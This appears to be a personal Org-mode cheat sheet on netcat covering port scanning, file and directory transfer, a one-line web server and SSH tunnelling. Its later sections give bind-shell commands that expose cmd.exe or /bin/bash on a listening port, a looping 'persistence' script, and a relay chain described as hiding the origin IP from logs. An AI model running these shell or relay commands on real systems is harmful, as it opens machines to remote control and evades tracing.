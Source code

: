 #+TAGS: net op


* netcat							     :net:op:
* Description
* Usage

> netcat <options> host port

** Send a udp packet instead of initiating with tcp connection
#+BEGIN_SRC sh
netcat -u $HOST $PORT
#+END_SRC

** Port Scanning 
- with the domain
#+BEGIN_SRC sh
netcat -z -v domain.com 1-1000 2>&1 | grep "succeeded"
#+END_SRC
- without the domain
#+BEGIN_SRC sh
netcat -z -n -v 127.0.0.1 1-1000 2>&1 | grep "succeeded"
#+END_SRC

** Communicate through Netcat
- On the server run
#+BEGIN_SRC sh
netcat -l 4444
#+END_SRC

#+BEGIN_SRC sh
netcat $DOMAIN 4444
#+END_SRC

- messages will now be able to send messages between the server and client

** Sending data 
- On the machine that wants the file
#+BEGIN_SRC sh
netcat -l 4444 > recieved_file
#+END_SRC

- On the sending machine
#+BEGIN_SRC sh
netcat $DOMAIN 4444 < original_file
#+END_SRC

*** Sending a directory compressed
- On the machine that wants the file
#+BEGIN_SRC sh
netcat -l 4444 | tar xvf -
#+END_SRC
- the dash indicates that the tar will operate on std input

- On the sending machine from inside the directory that is to be copied over
#+BEGIN_SRC sh
tar -czf - * | netcat $DOMAIN 4444
#+END_SRC

** Simple Web Server
- On sever run:
#+BEGIN_SRC sh
netcat -l 4444 < index.html
#+END_SRC

- To continually server page after first connection is closed
#+BEGIN_SRC sh
while true; do netcat -l 4444 < index.html; done
#+END_SRC

** redirect a windows shell
#+BEGIN_SRC sh
nc -l -p 9999 -e cmd.exe
#+END_SRC
- ensure that the version of netcat that you use has the execute flag compiled
- always keep in mind that you are not in a terminal, but a cmd over the network

** using netcat as a relay
Machine 1 - 192.168.0.10
#+BEGIN_SRC sh
netcat 192.168.0.11 -p 7777
#+END_SRC

Machine 2 - 192.168.0.11
#+BEGIN_SRC sh
netcat -l -p 7777 0<backpipe | netcat 192.168.0.12 8888 1>backpipe
#+END_SRC
- thiw now passes traffice between machine 1 and machine 2

Machine 3 - 192.168.0.12
#+BEGIN_SRC sh
netcat -L -p 9999 -e cmd.exe
#+END_SRC
L - persistent (only available on windows)

-for persistents on linux the script below can be used
#+BEGIN_SRC sh
while [ 1 ]; do echo "Netcat has 9 lives. Port is 7777"; nc -l -p 777 -e /bin/bash; done
#+END_SRC

All traffic logged on machine 3 would only show the ip for Machine 2

** persistence
- Windows
#+BEGIN_SRC sh
netcat -L -p 9999 -e cmd.exe
#+END_SRC
L - persistent (only available on windows)

- Linux - 9lives.sh
#+BEGIN_SRC sh
while [ 1 ]; do echo "Netcat has 9 lives. Port is 7777"; nc -l -p 777 -e /bin/bash; done
#+END_SRC

** tunneling with ssh
#+BEGIN_SRC sh
ssh -i Documents/id_rsa -L 8888:172.168.0.129:80 alick@172.16.0.134
#+END_SRC
* Lecture
* Tutorial
** [[https://www.youtube.com/watch?v%3Dqo_sFS2A-mI][Introduction to Data Transfer with NetCat]]

* Books
[[file://home/crito/Documents/Security/Tools/Netcat_Starter.pdf][Netcat Starter]]
[[file://home/crito/Documents/Security/Tools/Netcat_Power_Tools.pdf][Netcat Power Tools]]
* Links
